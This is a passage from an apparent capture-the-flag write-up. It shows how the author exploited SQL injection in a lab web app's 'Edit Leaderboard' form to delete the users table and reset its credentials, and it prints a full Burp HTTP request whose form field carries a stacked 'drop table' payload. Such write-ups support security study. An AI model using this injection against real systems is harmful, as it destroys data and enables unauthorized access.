 ![5](/images/injectics/5.jpg)


## Exploiting SQLi to delete **users** table

To trigger the background service and restore the default credentials, I needed to delete the `users` table. I identified a vulnerable form in the `Edit Leaderboard` functionality and crafted the following payload by using Burp:


```console
POST /edit_leaderboard.php HTTP/1.1
Host: 10.10.125.71
Content-Length: 46
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.125.71
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.125.71/edit_leaderboard.php?rank=1&country=USA
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jp6mvabofl6q50bh1d4evq604t
Connection: keep-alive

rank=1&country=&gold=22; drop table -- -&silver=21&bronze=12345
```
